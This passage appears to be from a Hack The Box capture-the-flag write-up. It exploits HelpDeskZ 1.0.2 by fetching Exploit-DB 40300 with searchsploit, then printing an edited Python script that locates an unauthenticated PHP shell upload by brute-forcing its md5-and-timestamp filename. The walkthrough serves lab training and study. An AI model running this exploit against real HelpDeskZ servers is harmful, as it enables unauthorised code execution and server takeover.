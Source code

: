More good news for us. Not only is this exploit looking incredibly useful to us, but the HelpDeskZ software is open-sourced and available on github. This allows us to look through it if needed to find more vulnerabilities or understand our target better.

## Exploitation

We can download the exploit to our local machine using searchsploit with the "-m" flag like so:

```text
~/ctf/htb/help λ searchsploit -m 40300
  Exploit: HelpDeskZ 1.0.2 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/40300
     Path: /usr/share/exploitdb/exploits/php/webapps/40300.py
File Type: troff or preprocessor input, ASCII text, with CRLF line terminators

Copied to: ~/ctf/htb/help/40300.py
```

It's not wise to blindly execute code downloaded from the internet on your machine, especially exploit code for a number of reasons. First, we should read the code and ensure it's not doing anything harmful to our system. Second, it gives us the ability to see if we need to make minor adjustments to the code for it to work in our environment or with the victim's environment. Finally, it gives us an opportunity to learn how the exploit actually works.

Below is an edited version of the exploit code with almost all of the original author's comments removed for brevity (I needed to alter the "Date" key in the headers dict and change the strptime formatters):

```python
import hashlib
import time
import sys
import requests
import datetime

#$filename = md5($_FILES['attachment']['name'].time()).".".$ext;

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print 'Usage {} [baseUrl] [nameOfUploadedFile].format(sys.argv[0])'
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

r = requests.get(helpdeskzBaseUrl)
#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['Date'], '%a, %d %B %Y %H:%M:%S %Z') - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()
    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)

print 'Sorry, I did not find anything'
```


[1]: https://www.hackthebox.eu/home/users/profile/3079
[2]: https://www.hackthebox.eu
[3]: https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php
[4]: https://www.php.net/manual/en/function.move-uploaded-file.php